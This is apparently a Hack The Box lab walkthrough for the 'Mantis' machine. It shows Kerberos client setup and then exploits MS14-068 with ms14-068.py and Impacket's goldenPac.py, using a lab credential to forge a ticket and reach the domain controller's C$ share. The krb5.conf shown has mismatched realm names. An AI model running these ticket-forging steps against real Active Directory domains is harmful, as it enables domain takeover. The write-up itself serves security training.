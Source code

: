 ```
apt-get install krb5-user cifs-utils rdate
# Add proper nameservers in /etc/hosts
```
```
/etc/krb5.conf

    [libdefaults]
        default_realm = HTB.LOCAL

        # The following krb5.conf variables are only for MIT Kerberos.
      	kdc_timesync = 1
      	ccache_type = 4
      	forwardable = true
      	proxiable = true

    #Edit the realms entry as follows:
    [realms]
        LAB.LOCAL = {
            kdc = mantis.htb.local:88
            admin_server = mantis.htb.local
            default_domain = HTB.LOCAL
        }

    #Also edit the final section:
    [domain_realm]
        .domain.internal = HTB.LOCAL
        domain.internal = HTB.LOCAL
```
```
net time -S 10.10.10.52 -U ""
# Set local time accordingly
# OR USE
rdate -n 10.10.10.52
```
```
python ms14-068.py -u james@htb.local -d mantis.htb.local
-p J@m3s_P@ssW0rd! -s S-1-5-21-4220043660-4019079961-2895681657
```

Rename the generated ticket to ​`/tmp/krb5cc_0​`
```
mv TGT_James@HTB.local.ccache /tmp/krb5cc_0
```

With Impacket (Golden PAC module):
- `kinit james`  (options ?)
- `klist` (options ?)
- `python goldenPac.py htb.local/james@mantis.htb.local`​
- Entering the password for the ​ `james` ​ user

Manually:
```
smbclient -W HTB.LOCAL //MANTIS/c$ -k
```
